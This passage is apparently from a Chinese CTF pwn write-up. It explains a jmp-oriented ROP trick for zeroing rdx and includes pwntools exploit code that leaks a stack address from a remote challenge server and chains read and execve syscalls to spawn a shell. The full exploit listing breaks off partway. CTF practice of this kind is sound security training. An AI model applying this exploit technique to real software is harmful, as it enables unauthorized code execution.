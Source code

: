 所以得通过别的方式跳转到控制 rdx 的 gadget，在 clby 师傅提示之下，发现可以利用![](/images/81bc71d8d5acabab16e623f14f260b4a.png)

这个 gadget，把 rbx 用来 ROP，把 ROP 链接着本来的 getshell 链写下去，

这样就可以在不动 rsp 和 r15 的情况下执行控制 rdx 的 gadget，

用`pop r15``jmp r15`跳到这个 gadget ，r15 就指向 `add rbx,8`这个指令，等到执行完`xor rdx,rdx; jmp r15`，就会回到这个指令，循环`add rbx,8; jmp [rbx]`就相当于在 `ret`，提前写的 rbx ROP 链就是这样接着执行下去的（只要不修改 r15，并且调用到最后有 `jmp r15`）

然后把利用前面得到的 rsp 地址加上偏移得出 rbx ROP 的地址赋给 rbx（初始记得减 8），

在 rbx ROP 链上写上`xor rdx,rdx; jmp r15`的地址，再接着跳回到 rsp 的 gadget（这个时候 rsp 指向的是原本 getshell 链后面开始调用 execve 的地址）

这样最后就实现了将 rdx 设为 0，回到调用 execve 的 ROP 链上了

```python
payload+=p64(rbx_r13_r15j)+p64(0)+p64(gadgets) #准备控制rbx
payload+=p64(0xdeadbeef)+p64(0xdeadbeef)+p64(rsp_addr+0xd8-0x8)+p64(0xdeadbeef)+p64(rbx_ret) #控制rbx到rbx ROP位置

#跳转到rbx相关语句时rsp位置:
payload+=p64(rbx_r13_r15j)+p64(59)+p64(xchg)+p64(rbx_r13_r15j)+p64(0)+p64(gadgets) #控制rax为59，调用execve
payload+=p64(0)+p64(rsp_addr)+p64(0xdeadbeef)+p64(0xdeadbeef)+p64(syscall)

#rbx ROP:
payload+=p64(xor)+p64(jrsp) #add rbx,8;jmp rbx类似ret，用来跳转到清空rdx的gadget，然后再跳回上面rsp的位置继续执行
link.send(payload)
```



完整 exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
# link=process("./stack")
link=remote("node2.anna.nssctf.cn",28910)

syscall=0x401077

# gdb.attach(link)
rsp_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(rsp_addr))

# gdb.attach(link)
# pause()

gadgets=0x401017
rbx_r13_r15j=0x401019
xchg=0x40100C
jrsp=0x40100E
rbx_ret=0x401011
xor=0x401021

payload=p64(rbx_r13_r15j)+p64(0)+p64(xchg)+p64(rbx_r13_r15j)+p64(0)+p64(gadgets) #控制rax为0，调用read
payload+=p64(rsp_addr)+p64(0)+p64(0xdeadbeef)+p64(0xdeadbeef)+p64(syscall) #read参数
payload+=p64(rbx_r13_r15j)+p64(0)+p64(gadgets) #准备控制rbx
payload+=p64(0xdeadbeef)+p64(0xdeadbeef)+p64(rsp_addr+0xd8-0x8)+p64(0xdeadbeef)+p64(rbx_ret) #控制rbx到rbx ROP位置

#跳转到rbx相关语句时rsp位置:
```